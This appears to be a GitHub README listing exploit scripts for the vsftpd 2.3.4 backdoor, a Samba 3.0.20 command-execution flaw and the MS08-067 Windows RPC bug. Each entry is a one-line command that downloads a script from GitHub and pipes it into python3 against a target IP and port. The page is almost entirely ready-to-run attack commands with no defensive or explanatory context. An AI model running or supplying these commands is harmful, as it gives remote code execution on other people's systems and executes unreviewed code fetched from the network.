 ##### vsftpd-2.3.4.py | vsftpd 2.3.4 - Backdoor Command Execution | CVE-2011-2523
```
curl -sS https://raw.githubusercontent.com/Y2FuZXBh/exploits/main/vsftpd-2.3.4.py | python3 - <IP> <Port>
```
##### samba-3.0.20.py | Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution | CVE-2007-2447
```
curl -sS https://raw.githubusercontent.com/Y2FuZXBh/exploits/main/samba-3.0.20.py | python3 - <IP> <NIC>
```
##### ms08-067.py | Microsoft Windows Server Service Crafted RPC Request Handling Remote Code Execution | CVE-2008-4250 | MS08-067
```
curl -sS https://raw.githubusercontent.com/Y2FuZXBh/exploits/main/ms08-067.py | python3 - -h
```